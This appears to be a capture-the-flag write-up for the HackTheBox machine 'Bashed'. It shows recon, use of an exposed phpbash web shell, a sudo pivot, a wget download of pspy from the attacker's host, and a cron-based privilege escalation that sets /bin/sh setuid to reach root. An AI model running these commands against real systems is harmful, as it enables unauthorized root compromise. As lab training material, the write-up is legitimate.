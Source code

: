 ```yaml
---
tags:
  -  htb
revisit: true
---
```

# HackTheBox: [Bashed](https://app.hackthebox.com/machines/Bashed)

> [!tip]- Spoiler Summary
> This Linux machine is running a PHP script that allows direct code execution, but you have to find where it is. Privilege execution is possible due to a cronjob that will run arbitrary Python scripts as the root user; it's possible to discover this using [pspy](https://github.com/DominicBreuker/pspy).

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Jun 28 12:01:48 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oA nmap_tcp t
Warning: 10.10.10.68 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.68)
Host is up (0.097s latency).
Not shown: 65386 closed tcp ports (reset), 148 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only a web server is running.

#### 80/tcp-http

```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Visiting `http://t`:

![](_/htb-bashed-20240628-1.png)

Running `feroxbuster -k -u http://t -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1` uncovered some interesting directories, including `/uploads` (with an empty index) and `/dev`, the latter with some interesting files:

![](_/htb-bashed-20240628-2.png)

## RCE

Footholds don't get much easier than this one. There's a script called `phpbash.php` in a directory that's quickly discoverable via fuzzing. And that's the whole foothold:

![](_/htb-bashed-20240628-3.png)

Conveniently, the flag belongs to another user but it's readable:

```console
$ ls -l /home/arrexel/user.txt
-r--r--r-- 1 arrexel arrexel 33 Jun 28 11:00 /home/arrexel/user.txt
```

## PE

Here's how I was able to escalate privileges for full control of the system.

First, I check `sudo` and notice I'm able to become the `scriptmanager` user without a password:

```console
www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home$ sudo -u scriptmanager bash
scriptmanager@bashed:/home$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Using `pspy64` I can see some interesting commands being executed as root:

```console
scriptmanager@bashed:/dev/shm$ wget 10.10.14.10/pspy64
--2024-06-28 11:30:07--  http://10.10.14.10/pspy64
Connecting to 10.10.14.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 964408 (942K) [application/octet-stream]
Saving to: 'pspy64'
pspy64              100%[===================>] 941.80K   540KB/s    in 1.7s
2024-06-28 11:30:09 (540 KB/s) - 'pspy64' saved [964408/964408]

scriptmanager@bashed:/dev/shm$ chmod +x pspy64 && ./pspy64
...
2024/06/28 11:22:01 CMD: UID=0     PID=1227   | python test.py
2024/06/28 11:22:01 CMD: UID=0     PID=1226   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
2024/06/28 11:22:01 CMD: UID=0     PID=1225   | /usr/sbin/CRON -f
```

I confirm that the `/scripts` directory is writable as the current user, and I put a malicious script there to make `/bin/sh` run as `setuid=0`:

```console
scriptmanager@bashed:/dev/shm$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -ld .
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 28 11:25 .
scriptmanager@bashed:/scripts$ echo 'import os;os.system("chmod u+s /bin/sh")' > hax.py
```

Once the cronjob runs, I'm able to run `/bin/sh` with the `-p` option so it doesn't drop the privileges:

```console
scriptmanager@bashed:/scripts$ /bin/sh -p
# id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) groups=1001(scriptmanager)
# cat /root/root.txt
1c4223...
```
